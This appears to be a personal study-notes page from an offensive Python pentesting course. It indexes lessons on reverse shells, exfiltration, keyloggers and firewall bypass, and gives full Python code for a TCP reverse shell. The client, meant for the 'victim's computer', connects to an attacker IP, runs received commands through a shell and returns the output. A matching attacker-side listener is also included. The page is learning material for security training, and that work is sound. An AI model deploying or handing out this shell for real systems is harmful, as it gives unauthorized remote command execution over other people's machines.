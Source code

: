 ```yaml
---
title: Coding a TCP connection and d reverse shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Coding a TCP connection and a reverse shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).





## Basic connection 

From eJPT study module + the book Networking computers.

### Client side

To be run on victim's computer.
```python
from socket import *
serverName = "servername or ip"
serverPort = 12000

clientSocket = socket(AF_INET, SOCK_STREAM)
clientSocket.connect((serverName, serverPort))

sentence = str(input("Enter a sentence in lower case: "))
clientSocket.send(sentence.encode())
modifiedSentence = clientSocket.recv(1024)

print("From server: ", modifiedSentence.decode())
clientSocket.close()
```

### Server  side

```python
from socket import *

serverPort = 12000
serverSocket = socket(AF_INET, SOCK_STREAM)

serverSocket.bind(('', serverPort))
serverSocket.listen(1)
print("Server is ready to receive...")

while True:
	connectionSocket, addr = serverSocket.accept()
	sentence = connectionSocket.recv(1024).decode()
	capitalizedsentence = sentence.upper()
	connectionSocket.send(capitalizedsentence.encode())
	connectionSocket.close()
```


## Reverse TCP connection 

From the course: Python For Offensive PenTest: A Complete Practical  

### Client side

To be run on victim's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket    # For Building TCP Connection
import subprocess # To start the shell in the system

def connect():
    s = socket.socket()
    s.connect(('10.0.2.6', 1234)) # Here we define the Attacker IP and the listening port

    while True:
        command = s.recv(1024) # keep receiving commands from the Kali machine, read the first KB of the tcp socket

        if 'terminate' in command.decode(): # if we got terminate order from the attacker, close the socket and break the loop
            s.close()
            break
        else:   # otherwise, we pass the received command to a shell process

            CMD = subprocess.Popen(command.decode(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            s.send(CMD.stdout.read()) # send back the result
            s.send(CMD.stderr.read()) # send back the error -if any-, such as syntax error

def main():
    connect()
main()
        
```

### Server side

To be run on attacker's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket

def connect():

    s = socket.socket()
    s.bind(("10.0.2.15", 1234))
    s.listen(1) # define the backlog size for the Queue, I made it 1 as we are expecting a single connection from a single
    conn, addr = s.accept() # accept() function will retuen the connection object ID (conn) and will return the client(target) IP address and source port in a tuple format (IP,port)
    print ('[+] We got a connection from', addr)

    while True:

        command = input("Shell> ")

        if 'terminate' in command: # If we got terminate command, inform the client and close the connect and break the loop
            conn.send('terminate'.encode())
            conn.close()
            break
        elif '' in command: # If the user just click enter, we will send a whoami command
            conn.send('whoami'.encode()) 
            print( conn.recv(1024).decode()) 
        else:
            conn.send(command.encode()) # Otherwise we will send the command to the target
            print( conn.recv(1024).decode()) # print the result that we got back

def main():
    connect()
main()

```


## Using pyinstaller

See [pyinstaller](../pyinstaller.md).